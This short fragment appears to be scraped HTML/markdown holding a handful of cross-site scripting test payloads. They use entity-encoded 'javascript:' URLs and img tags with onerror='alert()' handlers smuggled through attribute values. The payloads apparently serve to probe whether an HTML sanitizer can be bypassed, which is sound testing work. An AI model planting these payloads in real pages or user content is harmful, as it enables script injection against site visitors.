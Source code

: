 <img src="../../../../r89shi/r89shi.github.io/blob/master/140.gif?raw=true">
javascript&colon;alert281%29
<div dir="X&colon;Xj&NewLine;1&NewLine;<img src='' onerror='alert()'>">j&Tab;</div>

<img src="&quot; onerror='alert()'&quot;">
